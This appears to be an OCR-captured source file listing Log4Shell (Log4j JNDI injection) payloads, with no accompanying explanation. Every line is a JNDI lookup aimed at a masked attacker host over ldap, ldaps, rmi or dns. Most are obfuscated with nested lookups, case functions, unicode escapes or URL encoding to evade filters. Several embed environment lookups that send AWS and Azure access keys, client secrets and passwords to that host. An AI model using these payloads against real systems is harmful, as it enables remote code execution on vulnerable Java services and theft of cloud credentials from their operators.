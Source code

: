${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'l'}${date:'d'}${date:'a'}${date:'p'}${date:'s'}://****/z}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'r'}${date:'m'}${date:'i'}://****/z}
${${date:'j'}${date:'n'}${date:'d'}${date:'i'}:${date:'d'}${date:'n'}${date:'s'}://****/z}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:ldaps://****/z}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:rmi://****/z}
${${what:ever:-j}${some:thing:-n}${other:thing:-d}${and:last:-i}:dns://****/z}
${\u006a\u006e\u0064\u0069:ldap://****/z}
${\u006a\u006e\u0064\u0069:ldaps://****/z}
${\u006a\u006e\u0064\u0069:rmi://****/z}
${\u006a\u006e\u0064\u0069:dns://****/z}
${jndi:ldap://127.0.0.1#****/z}
${jndi:ldaps://127.0.0.1#****/z}
${jndi:rmi://127.0.0.1#****/z}
${jndi:dns://127.0.0.1#****/z}
%24%7bjndi:ldap://****/z%7d
%24%7bjndi:ldaps://****%7d
%24%7bjndi:rmi://****%7d
%24%7bjndi:dns://****%7d
%24%7b%24%7benv:ENV_NAME:-j%7dndi%24%7benv:ENV_NAME:-:%7d%24%7benv:ENV_NAME:-l%7ddap%24%7benv:ENV_NAME:-:%7d//****/z%7d
%24%7b%24%7benv:ENV_NAME:-j%7dndi%24%7benv:ENV_NAME:-:%7d%24%7benv:ENV_NAME:-l%7ddaps%24%7benv:ENV_NAME:-:%7d//****/z%7d
%24%7b%24%7benv:ENV_NAME:-j%7dndi%24%7benv:ENV_NAME:-:%7d%24%7benv:ENV_NAME:-r%7dmi%24%7benv:ENV_NAME:-:%7d//****/z%7d
%24%7b%24%7benv:ENV_NAME:-j%7dndi%24%7benv:ENV_NAME:-:%7d%24%7benv:ENV_NAME:-d%7dns%24%7benv:ENV_NAME:-:%7d//****/z%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AWS_ACCESS_KEY_ID:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AWS_SECRET_ACCESS_KEY:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AMAZON_AWS_ACCESS_KEY_ID:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AMAZON_AWS_SECRET_ACCESS_KEY:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AZURE_CLIENT_ID:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AZURE_CLIENT_SECRET:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AZURE_USERNAME:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:AZURE_PASSWORD:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:MSI_ENDPOINT:-NO_EXISTS%7d%7d
%24%7bjndi:ldap://****/z?leak=%24%7benv:MSI_SECRET:-NO_EXISTS%7d%7d
%24%7b%24%7blower:j%7dndi:%24%7blower:l%7d%24%7blower:d%7da%24%7blower:p%7d://****/z%7d
%24%7b%24%7bupper:j%7dndi:%24%7bupper:l%7d%24%7bupper:d%7da%24%7blower:p%7d://****/z%7d
%24%7b%24%7b::-j%7d%24%7b::-n%7d%24%7b::-d%7d%24%7b::-i%7d:%24%7b::-l%7d%24%7b::-d%7d%24%7b::-a%7d%24%7b::-p%7d://****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:ldap:/****/z%7d
%24%7bj%24%7b%24%7b:-l%7d%24%7b:-o%7d%24%7b:-w%7d%24%7b:-e%7d%24%7b:-r%7d:n%7ddi:ldap://****/z%7d
%24%7b%24%7bdate:'j'%7d%24%7bdate:'n'%7d%24%7bdate:'d'%7d%24%7bdate:'i'%7d:%24%7bdate:'l'%7d%24%7bdate:'d'%7d%24%7bdate:'a'%7d%24%7bdate:'p'%7d://****/z%7d
%24%7b%24%7bwhat:ever:-j%7d%24%7bsome:thing:-n%7d%24%7bother:thing:-d%7d%24%7band:last:-i%7d:ldap://****/z%7d
%24%7b%24%7blower:j%7dndi:%24%7blower:l%7d%24%7blower:d%7da%24%7blower:p%7d%24%7blower:s%7d://****/z%7d
%24%7b%24%7bupper:j%7dndi:%24%7bupper:l%7d%24%7bupper:d%7da%24%7blower:p%7d%24%7bupper:s%7d://****/z%7d
%24%7b%24%7blower:j%7dndi:%24%7blower:r%7d%24%7blower:m%7da%24%7blower:i%7d://****/z%7d
%24%7b%24%7bupper:j%7dndi:%24%7bupper:r%7d%24%7bupper:m%7da%24%7blower:i%7d://****/z%7d
%24%7b%24%7blower:j%7dndi:%24%7blower:d%7d%24%7blower:n%7da%24%7blower:s%7d://****/z%7d
%24%7b%24%7bupper:j%7dndi:%24%7bupper:d%7d%24%7bupper:n%7da%24%7blower:s%7d://****/z%7d
%24%7b%24%7b::-j%7d%24%7b::-n%7d%24%7b::-d%7d%24%7b::-i%7d:%24%7b::-l%7d%24%7b::-d%7d%24%7b::-a%7d%24%7b::-p%7d%24%7b::-s%7d://****/z%7d
%24%7b%24%7b::-j%7d%24%7b::-n%7d%24%7b::-d%7d%24%7b::-i%7d:%24%7b::-r%7d%24%7b::-m%7d%24%7b::-i%7d://****/z%7d
%24%7b%24%7b::-j%7d%24%7b::-n%7d%24%7b::-d%7d%24%7b::-i%7d:%24%7b::-d%7d%24%7b::-n%7d%24%7b::-s%7d://****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:ldap:/****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:ldaps:/****/z%7d
%24%7bjnd%24%7bsys:SYS_NAME:-i%7d:rmi:/****/z%7d